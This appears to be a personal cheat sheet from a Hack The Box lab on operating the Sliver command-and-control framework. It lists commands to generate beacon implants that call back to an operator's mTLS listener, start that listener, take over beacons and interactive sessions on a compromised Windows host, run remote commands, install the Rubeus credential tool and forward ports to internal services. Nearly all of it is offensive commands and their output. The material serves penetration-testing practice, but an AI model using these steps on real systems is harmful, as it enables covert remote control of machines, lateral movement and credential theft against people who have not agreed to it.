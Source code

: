 # Sliver C2  
## Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
For linux: `generate beacon --os linux --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
    
## Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

## Navigate  
### Beacons  
sliver > `jobs`   
sliver > `beacons`  
sliver > `use 94ba864f`  
  
[*] Active beacon PERFECT_WALL (94ba864f-991f-4a8f-9242-06c1e66d47b6)    
      
OR     
sliver > `use beacons`   
Select the beacon using arrows to move    
  
### Sessions (interactive)    
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`    
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
Now we got an interactive session shell.    

## Execute commands in a session   
sliver (PERFECT_WALL) > `execute -o <command>`  

## Load tools  
sliver (PERFECT_WALL) > `armory install rubeus`  

## Port forwarding  
sliver (FORWARD_SPIRITUAL) > `portfwd add -r 10.10.20.10:8161`  
[*] Port forwarding 127.0.0.1:8080 -> 10.10.20.10:8161  

Now the ActiveMQ web interface is accessible through http://127.0.0.1:8080/    

  

  
  





